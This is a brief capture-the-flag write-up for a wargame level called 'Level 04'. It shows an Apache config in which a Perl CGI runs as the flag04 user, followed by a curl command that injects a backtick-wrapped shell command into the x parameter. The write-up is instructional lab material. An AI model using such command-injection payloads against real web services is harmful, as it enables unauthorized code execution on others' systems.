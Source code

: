 # Level 04

level04.pl is a CGI hosted on apache2 on port 4747 printing the value of the x parameter.

```sh
$ cat /etc/apache2/sites-enabled/level05.conf 
<VirtualHost *:4747>
	DocumentRoot	/var/www/level04/
	SuexecUserGroup flag04 level04
	<Directory /var/www/level04>
		Options +ExecCGI
		DirectoryIndex level04.pl
		AllowOverride None
		Order allow,deny
		Allow from all
		AddHandler cgi-script .pl
	</Directory>
```
From this configuration file, we can see that this CGI is executed by flag04. So if we make this script execute getflag, we win.


```sh
$ curl "localhost:4747?x=\`getflag\`"
```